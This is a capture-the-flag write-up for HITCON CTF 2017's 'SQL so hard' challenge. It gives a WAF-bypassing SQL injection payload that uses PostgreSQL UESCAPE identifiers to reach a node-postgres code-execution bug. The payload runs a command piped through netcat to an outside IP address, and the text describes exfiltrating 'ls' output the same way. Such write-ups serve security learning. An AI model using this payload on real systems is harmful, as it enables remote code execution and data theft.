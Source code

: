 # [SQL so hard](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2017/sql-so-hard)

*[HITCON ctf 2017](https://ctf2017.hitcon.org)*

## tl;dr

`SELECT 1 FROM "\\'"` can be written as `SELECT 1 FROM U&"!005c'" UESCAPE '!'`. Change all spaces to tabs and
the WAF will be happy.

Our final exploit payload for the `username` field is:

```
','')\tON\tCONFLICT\t(username)\tDO\tUPDATE\tSET\tusername=''\tRETURNING\t1\tAS\tU&"!005c!0027+(r=process.mainModule.require,l=!0022!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022!002freadflag|nc!0020123.123!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022.123.123!00201234!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(r(!0022child_process!0022).execSync(l))]!002f!002f"\tUESCAPE\t'!';
```

## details

> be me
> know nothing about mysql
> know nothing about [`max_allowed_packet`](https://dev.mysql.com/doc/refman/5.7/en/packet-too-large.html)
> set up local env with postgres, node and `npm i pg@7.1.0` without mysql
> reproduce the [original vulnerability](https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability) (given as hint)
> spend hours researching unicode combining characters and diacritics
> find out unicode is not going to help
> see that we **definitely need** backslashes in the field name to exploit the vulnerable javascript literal
> start digging into `node pg`-s query parser
> learn that the field names are not parsed on the client side but are reflected from the server
> consult the PostgreSQL documentation
> find interesting [unicode quoted identifiers](https://www.postgresql.org/docs/9.5/static/sql-syntax-lexical.html#SQL-SYNTAX-IDENTIFIERS)
> assemble query from `returning` clause, tabs and the above literals
> celebrate the RCE
> find out that `require` is not defined in `Function("require")()` calls in node modules
> use `process.mainModule.require`
> spend another half an hour wondering why do all the reverse shells close the connection immediately
> give up and just execute `ls /|nc xxx`
> find and execute `/readflag|nc xxx`
> `hitcon{if_you_dont_know_why_plz_check_mysql_max_allowed_packet}`
> submit, be surprised about what might the flag possibly mean and move on
